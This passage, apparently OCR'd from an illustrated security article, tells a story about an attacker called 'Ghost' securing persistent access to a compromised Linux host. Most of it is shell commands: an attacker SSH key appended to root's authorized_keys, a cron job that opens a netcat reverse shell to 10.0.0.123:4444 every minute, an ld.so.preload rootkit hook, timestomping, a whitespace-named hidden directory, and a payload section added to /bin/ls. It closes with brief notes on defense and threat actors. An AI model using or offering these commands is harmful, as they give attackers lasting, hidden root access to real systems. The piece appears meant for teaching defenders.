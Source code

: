Now Ghost locks down his access.

### 1️⃣ Planting a Silent Backdoor

```bash
# Injecting SSH keys for persistent access
echo "ssh-rsa AAAAB3Nz...[attacker_key]..." >> /root/.ssh/authorized_keys
```

**Result**: Even if credentials change, Ghost retains root access.

### 2️⃣ Covert Task Execution (Cron Job Persistence)

```bash
# Setting a reverse shell trigger every minute
(crontab -l; echo "* * * * * nc 10.0.0.123 4444 -e /bin/sh") | crontab -
```

**Result**: A quiet fail-safe. Even if Ghost loses his shell, the system will call him back — again and again.

### 3️⃣ Deploying a Rootkit for Stealth

```bash
# Modifying /etc/ld.so.preload to hijack system calls
echo "/lib/libghost.so" > /etc/ld.so.preload
```

**Result**: Processes, logs, and file changes disappear.

Rootkits like this are virtually undetectable without advanced monitoring.

> **Modern TTPs Note** → While rootkits remain viable, sophisticated adversaries often favor malware-free persistence methods like cloud service abuse, credential stuffing, or modifying legitimate system daemons. The techniques shown here represent just one approach in an evolving threat landscape.

### The Art of Hiding in Plain Sight

Ghost employs advanced techniques to blend into the system's normal operations:

```bash
# Timestomping—matching file timestamps to hide modifications
touch -r /bin/bash /lib/libghost.so

# Creating hidden directories that most tools ignore
mkdir " \t\n"

# Embedding backdoor in legitimate binaries
objcopy --add-section .backdoor=/tmp/payload --set-section-flags .backdoor=noload,readonly /bin/ls /bin/ls.modified
```

These techniques exploit how administrators and security tools interact with the filesystem — hiding malicious activity in the cognitive blind spots of defenders.

> **Real-World Parallel** → APT38, a state-sponsored North Korean threat actor, has used similar file system reconnaissance and privilege escalation techniques to infiltrate financial institutions, mirroring Ghost's tactics here. Their ability to rapidly enumerate systems and move laterally is what makes them so dangerous. But defenders who move faster — leveraging automated file traversal — can cut off attackers before they establish persistence.
